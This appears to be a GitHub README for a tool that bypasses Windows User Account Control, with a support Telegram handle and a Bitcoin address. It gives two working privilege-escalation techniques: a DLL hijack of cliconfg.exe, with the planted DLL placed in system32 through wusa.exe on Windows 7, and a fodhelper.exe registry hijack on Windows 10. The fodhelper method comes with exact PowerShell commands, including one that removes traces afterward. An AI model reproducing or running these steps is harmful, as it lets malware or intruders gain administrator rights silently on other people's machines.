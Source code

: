 <h1 align="center">Bypass-UAC Rad Studio XE7</h1>

Windows 7
Both Dlls (under 64 bits and 32 bits) will be packed into a .cab archive by a command from cmd with administrator rights
(Example: makecab "C:\dll\Win64\ntwdblib.dll" "C:\ntwdblib64.cab")
ntwdblib32.cab and ntwdblib64.cab are already written in the code as an array of strings, in the execonsole project
to translate the ntwdblib32.cab file into an array of strings, you can use the code from the conststring project
We use the process vulnerability from the white list "%systemroot%\system32\cliconfg.exe"
Programmatically, using the update installer "%systemroot%\system32\wusa.exe" (it is also in the windows white list)
(Example: wusa "%temp%\ntwdblib.cab" /quiet /extract:%systemroot%\system32\)
do unpacking ntwdblib64.cab or ntwdblib32.cab depending on bitness
to the directory "%systemroot%\system32\ntwdblib.dll"
We start the process "%systemroot%\system32\cliconfg.exe" with user rights, but considering that it is in the windows white list
it executes itself with administrator privileges and loads our dll library "%systemroot%\system32\ntwdblib.dll"
in connection with which it inherits administrator rights and is able to execute any PE file bypassing the UAC window.

Windows 10
We use the vulnerability of the process from the white list "fodhelper.exe"
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "path to our file" -Force
powershell New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
powershell Start-Process "fodhelper.exe"
powershell Remove-Item "HKCU:\Software\Classes\ms-settings\shell\open\command" -Recurse -Force

-------
### Video
[![video](https://i.postimg.cc/rw9fmbs8/maxresdefault.jpg)](https://youtu.be/VKTAxeYmjFI)

-------

### Support
Telegram: @Official_Mr_Robot

BTC: 1PoieWSbe1A7o2nAuXE37ncQHnGqxcdhJc
